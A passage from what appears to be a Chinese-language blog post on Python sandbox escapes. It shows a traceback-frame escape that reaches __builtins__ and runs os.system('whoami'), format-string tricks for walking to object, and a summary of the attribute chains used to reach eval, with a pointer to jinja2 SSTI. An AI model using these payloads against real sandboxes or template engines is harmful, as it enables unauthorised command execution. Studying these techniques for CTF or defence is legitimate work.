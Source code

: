 还可以利用异常逃逸：

```python
hack = lambda : [0][1]
try:
    hack()
except Exception as e:
    e.__traceback__.tb_next.tb_frame.f_globals['__builtins__']['__import__']('os').system('whoami')
```

还可以利用 `format`：

```python
"{0.__class__.__base__}".format([])
# 上述命令等价于 [].__class__.__base__
```



```python
"{x.__class__.__base__}".format(x=[])
"{.__class__.__base__}".format([])
("{0.__class_"+"_.__base__}").format([])
```

（这里顺手记录下，对于字典键是整数型的比如 `{"1":2}`，format 是无法拿到值的 :)，这样会报错：

```python
''' {0['1']} '''.format({"1":2})
```

`'1'` 引号去掉的话又会报没有这个键，这个特性可以见[文档](https://docs.python.org/3/library/string.html#format-string-syntax)）

上面的这些利用方式总结起来就是通过 `.mro()`、`__class__`、`type(...)`、`__mro__`、`__subclasses__`、`__base__`、`__bases__` 等属性/方法去获取 `object`，再根据`__globals__`找引入的`__builtins__`或者`eval`等等能够直接被利用的库，或者找到`builtin_function_or_method`类/类型`__call__`后直接运行`eval`。

最后，其实沙箱逃逸，对于不同的第三方库可能会存在一些特殊的利用方式，比如 `jinja2`，这类属于 `SSTI` 漏洞，可以看这个：[传送门🚪](https://www.tr0y.wang/2022/04/13/SecMap-SSTI-jinja2/)，这里就不多说了。

其实 SSTI 也会用到这里的很多技巧，两者知识面相互交叠。